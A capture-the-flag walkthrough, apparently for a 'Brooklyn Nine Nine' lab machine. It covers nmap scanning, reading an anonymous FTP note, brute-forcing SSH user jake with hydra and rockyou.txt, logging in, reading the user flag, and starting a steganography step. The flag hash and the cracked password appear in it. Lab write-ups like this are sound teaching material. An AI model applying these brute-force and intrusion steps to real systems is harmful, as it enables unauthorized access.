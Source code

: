# Target: 10.10.149.203

==========================

# At first let's do some inital scanning using namp.

    nmap -Pn -T4 10.10.149.203 -oA initial_scans
    PORT   STATE SERVICE
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http

==========================

***Let's check out the service versions and along with it let's check out what's in port 80***

    nmap -Pn -p21,22,80 -A 10.10.149.203 -oA full_scan
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.18.14.129
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 3
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

==========================

***Let's check out ftp's note_to_jake.txt file***

# Contents of the file:
    From Amy,

    Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

==========================

***Let's try to brute force the user jake with hydra***

    hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.149.203 -t 4 ssh
    [22][ssh] host: 10.10.149.203   login: jake   password: 987654321

**Got the login detail of jake**
    
    user: jake password: 987654321

# let's log in using ssh
    ssh jake@10.10.149.203
    The authenticity of host '10.10.149.203 (10.10.149.203)' can't be established.
    ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.149.203' (ED25519) to the list of known hosts.
    jake@10.10.149.203's password: 
    Last login: Tue May 26 08:56:58 2020
    jake@brookly_nine_nine:~$ ls
    jake@brookly_nine_nine:~$ id                                                   
    uid=1000(jake) gid=1000(jake) groups=1000(jake)

==========================

***Now let's try to get the user flag***

    jake@brookly_nine_nine:~$ find / -type f -name user.txt 2>/dev/null                                                                                
    /home/holt/user.txt
    jake@brookly_nine_nine:~$ cat /home/holt/user.txt                                                                                                  
    ee11cbb19052e40b07aac0ca060c23ee
    jake@brookly_nine_nine:~$

And we got it: **ee11cbb19052e40b07aac0ca060c23ee**
**Found some hint in the source code of the site:**

    <!-- Have you ever heard of steganography? -->

***Let's try to get the image and look for something in the image***

    wget http://10.10.149.203/brooklyn99.jpg